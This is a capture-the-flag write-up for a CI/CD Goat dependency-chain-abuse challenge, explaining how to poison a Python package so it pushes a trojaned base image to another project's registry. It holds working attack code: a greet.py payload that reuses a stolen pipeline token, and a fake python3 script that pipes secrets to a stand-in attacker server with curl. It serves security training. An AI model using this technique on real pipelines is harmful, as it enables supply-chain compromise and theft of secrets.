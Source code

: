 [![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/dependency-chain-abuse/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)


Let's explore what we have when signing in to the compromised GitLab:
You are the maintainer of *pygryphon* package, there are also public projects *nest-of-gold* and *awesome-app* which we have a read-only access.
<BR><BR>
As the instructions of this challenge hint us, let's try to see if we can find any reference to *Flag11*.
<BR>
A simple search tells us it is being referenced by *nest-of-gold* project 
<BR><BR><BR>

![grpyhon](../images/gryphon-1.png "grpyhon")

<BR><BR><BR>
We can see that *Flag11* is used in a pipeline that ships a container used in production.
Let's go to this pipeline scheduling, we can see that user named "gryphon" is the owner of this pipeline, and this user is also the owner of the *awesome-app* project's pipeline.
  
Diving into *awesome-app*, it is using our pygrphon package as a dependency!  
this is what the *requirments.txt* file looks like:
  
```
--extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
```
<BR><BR><BR>

This means we can influence *awesome-app* pipeline by uploading a new malicious python package of *pygrphon*.
Our end goal is within *nest-of-gold* project, how can we influence it's pipeline?
  
Because our end goal is to reach the "production" docker produced by *nest-of-gold* pipeline, let's have a look at the Dockerfile inside *nest-of-gold* we can see it is dependent on python:3.8 docker image from nest-of-gold container registry and not the offical registrar.
  
```docker
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]
```
  
Here's comes the tricky part 🥸, let's create a malicious pygryphon package that pushes a malicious python3.8 docker base image to *nest-of-gold* container registry, 
    

In the pipeline of *awesome-app* we can see a PAT behing used named *TOKEN*
<BR>
`docker login -u gryphon -p $TOKEN $CI_REGISTRY`    
Let's try to steal/use this token against the *nest-of-gold* container registry.     
In this package let's create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
modified greet.py content:

```python
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
PYTHON3 = """#!/bin/bash
env | grep FLAG11 | curl -X POST --data-binary @- https://ATTACKER[.]SERVER/"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    This function greets to
    the person passed in as
    a parameter
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    run('chmod +x python3')
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')
    return "Hello, " + name
```

And then build and upload this package to gryphon package registry (after we have configured "gitlab" as our a package registry 
  
```sh
pipenv run python3 -m build [path_to_package]
pipenv run python3 -m twine upload -r gitlab
```

